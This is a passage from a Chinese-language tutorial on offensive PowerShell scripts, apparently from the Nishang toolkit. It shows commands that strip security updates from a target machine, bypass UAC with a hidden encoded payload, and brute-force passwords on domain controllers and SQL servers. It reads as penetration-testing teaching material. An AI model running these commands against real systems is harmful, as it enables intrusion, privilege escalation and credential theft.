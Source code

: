 具体的相关介绍可以查阅： 

[https://blogs.technet.microsoft.com/heyscriptingguy/2012/07/05/use-powershell-to-duplicate-process-tokens-via-pinvoke/](https://blogs.technet.microsoft.com/heyscriptingguy/2012/07/05/use-powershell-to-duplicate-process-tokens-via-pinvoke/)

Remove-Update

这个脚本可以帮助我们移除系统所有的更新，或所有安全更新，以及指定编号的更新。 

执行方式：



```
PS &gt; Remove-Update All       //移除目标机器上的所有更新
PS &gt; Remove-Update Security  //移除目标机器上所有安全相关更新
PS &gt; Remove-Update KB2761226 //移除指定编号的更新
```

Invoke-PsUACme

Invoke-PsUACme使用了来自于UACME项目的DLL来Bypass UAC。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011c577722427825d3.jpg)

上表给出了各种UAC绕过的方法，我们可以在Invoke-PsUACme中指定相应方法执行。 

执行方式：



```
PS &gt; Invoke-PsUACme -Verbose //使用Sysprep方法和默认的Payload执行
PS &gt; Invoke-PsUACme -method oobe -Verbose //使用oobe方法和默认的Payload执行
PS &gt; Invoke-PsUACme -method oobe -Payload "powershell -windowstyle hidden -e YourEncodedPayload" //使用-Payload参数可以自行指定要执行的Payload
```

除开以上而外，我们还可以使用-PayloadPath参数来指定Payload的路径，默认情况下Payload会在C:WindowsTempcmd.bat结束。还可以使用-CustomDLL64（64位）或-CustomDLL32（32位）参数来自定义一个DLL文件。

**6.扫描**

Invoke-BruteForce

这个脚本可以对SQL Server、域控制器、Web以及FTP进行口令的爆破 

执行方式：



```
PS &gt; Invoke-BruteForce -ComputerName targetdomain.com -UserList C:testusers.txt -PasswordList C:testwordlist.txt -Service ActiveDirectory -StopOnSuccess -Verbose //爆破域控制器
PS &gt; Invoke-BruteForce -ComputerName SQLServ01 -UserList C:testusers.txt -PasswordList C:testwordlist.txt -Service SQL -Verbose  //爆破SQL Server
PS &gt; cat C:testservers.txt | Invoke-BruteForce -UserList C:testusers.txt -PasswordList C:testwordlist.txt -Service SQL -Verbose  //爆破server.txt中所有servers的SQL Server
```
